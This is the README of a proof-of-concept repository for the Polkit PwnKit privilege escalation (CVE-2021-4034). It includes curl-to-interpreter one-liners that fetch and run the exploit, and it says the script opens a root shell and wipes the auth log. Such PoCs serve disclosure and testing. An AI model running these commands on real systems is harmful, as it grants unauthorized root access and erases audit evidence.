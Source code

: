 ```
██████╗ ██╗  ██╗██╗    ██╗███╗   ██╗███████╗██████╗ 
██╔══██╗██║ ██╔╝██║    ██║████╗  ██║██╔════╝██╔══██╗
██████╔╝█████╔╝ ██║ █╗ ██║██╔██╗ ██║█████╗  ██████╔╝
██╔═══╝ ██╔═██╗ ██║███╗██║██║╚██╗██║██╔══╝  ██╔══██╗
██║     ██║  ██╗╚███╔███╔╝██║ ╚████║███████╗██║  ██║
╚═╝     ╚═╝  ╚═╝ ╚══╝╚══╝ ╚═╝  ╚═══╝╚══════╝╚═╝  ╚═╝
A Python3 and a BASH PoC for CVE-2021-4034 by Kim Schulz
``` 

# Intro

This is a simple PoC for the newly found Polkit error names [PwnKit](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).

I made it both as bash and python3 script - just for the fun of it. 

The issue is very simple to abuse but has huge consequences as it will easily give root access on most Linux machines where the attacker has local user access. 

# How to run
This scripts are a one shot execution so simply do
```
python3 pkwner.py
```
or
```
bash pkwner.sh
```
You can also run it directly from a webserver (e.g. this github repo) via:
```
python3 <(curl https://raw.githubusercontent.com/kimusan/pkwner/main/pkwner.py)
```
or
```
source <(curl -s https://raw.githubusercontent.com/kimusan/pkwner/main/pkwner.sh))
```

In both cases it should look something like this:
![alt text](https://github.com/kimusan/pkwner/raw/main/screenshot-py.gif "screenshot")
and 
![alt text](https://github.com/kimusan/pkwner/raw/main/screenshot-sh.gif "screenshot")


The script will create some files and folders but will cleanup after itself when the root shell is popped - it will even clean up the /var/log/auth.log (because why not). 

# Credits

- **Qualys** for finding the issue and making the info public
- **Andris Raugulis** for making one of the first PoCs to get inspired from
- **MiscGang** because misgang@[Kalmarunionen](https://kalmarunionen.dk) are baddass 
